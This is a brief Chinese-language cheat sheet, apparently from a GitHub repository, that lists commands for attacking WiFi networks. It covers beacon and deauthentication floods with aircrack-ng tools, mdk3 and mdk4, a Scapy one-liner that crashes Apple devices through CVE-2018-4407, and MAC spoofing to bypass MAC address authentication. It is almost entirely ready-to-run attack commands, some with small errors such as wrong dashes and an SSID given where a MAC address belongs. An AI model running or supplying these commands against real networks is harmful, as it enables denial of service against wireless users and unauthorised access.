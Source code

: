 #### Beacon flood
	需切换网卡为监听模式
	>airmon-ng start wlan1
	创建大量虚假热点Mdk3 mon0 b
	>mdk3 wlan1mon b -f /root/wifi.txt -a -s 1500
#### Deauth flood
	针对AP
	>airmon-ng start wlan1
	>aireplay-ng –deauth 10 –a AP's mac address mon0
	针对AP内设备
	>airmon-ng start wlan1       将网卡置为监听模式
	>airodump-ng wlan1mon –bssid 目标ap的ssid
	>aireplay-ng -0 0 -a ap的ssid -c AP的ssid wlan0mon 开始攻击
#### Mdk3 destruction
	针对范围内
	>mdk3 wlan1mon d
	针对AP
	>airodump-ng wlan1mon
	>mdk3 wlan1mon a -a APmac 发起攻击
	黑名单
	>mdk3 wlan1mon d –c 信道 –b /blacklist.txt.
	>mdk3 wlan1mon  b -n test -w -g -c 1 -s 200
#### WiFi芯片esp8266
#### Mdk4
	>mdk4 wlan0mon d
#### CVE-2018-4407
	Scapy
	send(IP(dst="192.168.1.132",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))
	Apple iOS 11及更早版本：所有设备（升级到iOS 12的部分设备）
	Apple macOS High Sierra（受影响的最高版本为10.13.6）：所有设备（通过安全更新2018-001修复）
	Apple macOS Sierra（受影响的最高版本为10.12.6）：所有设备（通过安全更新2018-005中修复）
	Apple OS X El Capitan及更早版本：所有设备
#### 绕过mac地址认证
##### Ifconfig
	>ifconfig wlan1 down
	>ifconfig wlan1 hw ether xx:xx:xx:xx:xx:xx
	>ifconfig wlan1 up
##### Macchanger
	>macchanger –m xx:xx:xx:xx:xx:xx wlan1
	>macchanger –r wlan1